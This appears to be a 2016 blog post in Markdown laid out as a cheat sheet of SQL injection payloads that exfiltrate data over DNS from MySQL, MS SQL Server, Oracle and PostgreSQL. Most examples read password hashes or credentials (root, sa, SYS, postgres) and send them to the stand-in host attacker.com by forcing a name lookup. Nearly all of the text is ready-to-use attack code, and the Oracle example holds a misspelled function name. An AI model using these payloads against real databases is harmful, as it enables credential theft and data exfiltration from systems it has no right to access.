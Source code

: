 ```yaml
---
title: DNS exfiltration with SQL Injection
date: 2016-06-14 02:58:57
tags: DNS
---
```


#### MySQL

```
LOAD_FILE('<filepath>')   # reads the file content and returns it as a string
```
> example

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.attacker.com\\foobar'));
```
<!--more-->
#### Microsoft SQL Server

> master..xp_dirtree

```
EXEC master..xp_dirtree 'C:\Windows';
```
> master..xp_fileexist

```
EXEC master..xp_fileexist 'C:\boot.init';
```
> master..xp_subdirs

```
EXEC master..xp_subdirs 'C:\Windows';
```
> example

```
DECLARE @host varchar(1024);
SELECT @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash) FROM sys.sql_logins WHERE name='sa')+'.attacker.com';
EXEC('master..xp_dirtree "\\'+@host+'\c$"');
```

#### Oracle

> UTL_INADDR.GET_HOST_ADDRESS('<host>')     #to get the IP address of host test.example.com

```
SELECT UTL_INADDR.GET_HOST_ADDRESS('test.example.com');
```
> UTL_HTTP.REQUEST('<url>')     # to get the first 2000 bytes of data from a page

```
SELECT UTL_HTTP.REQUEST('http://test.example.com/index.php') FROM DUAL;
```

> HTTPURITYPE('<url>').GETCLOB      # to start content retrieval from a page

```
SELECT HTTPURITYPE('http://test.example.com/index.php').GETCLOB FROM DUAL;
```
> DBMS_LDAP.INIT(('<host>',<port>)      # to initialize a connection with the host

```
SELECT DBMS_LDAP.INIT(('test.example.com',80) FROM DUAL;
```
> example

```
SELECT DBMS_LADP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS') ||'.attacker.com',80) FROM DUAL;
```

#### PostgreSQL

```
COPY <table>(<column>,...) FROM '<path>'  # to copy the content from a file
```

> example

```
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
    SELECT INTO query_result (SELECT passwd FROM pg_shadow WHERE username='postgres');
    exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.attacker.com\\\\foobar.txt\'';
    EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```
